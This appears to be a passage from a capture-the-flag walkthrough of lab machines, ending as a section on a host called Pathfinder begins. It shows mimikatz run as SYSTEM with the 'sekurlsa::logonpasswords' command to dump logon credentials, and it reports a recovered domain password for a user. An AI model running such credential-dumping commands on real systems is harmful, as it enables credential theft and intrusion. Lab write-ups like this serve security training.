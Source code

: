 As a “**nt authority\\system**” we execute mimikatz and use the
**sekurlsa** command to extract logon passwords

``` shell
  --------------------
  **./mimikatz.exe**
  --------------------
```
![](media/image126.png)

``` shell
  ------------------------------
  **sekurlsa::logonpasswords**
  ------------------------------
```
![](media/image126.png)

And we find the password “**Password1234!”** for domain user
“**Sandra”**.

![](media/image127.png)


## &#9654; PATHFINDER 

<ul>
<li>Machine : <b>Pathfinder</b> </li>
<li>Ip: <b>10.10.10.29</b></li>
</ul>
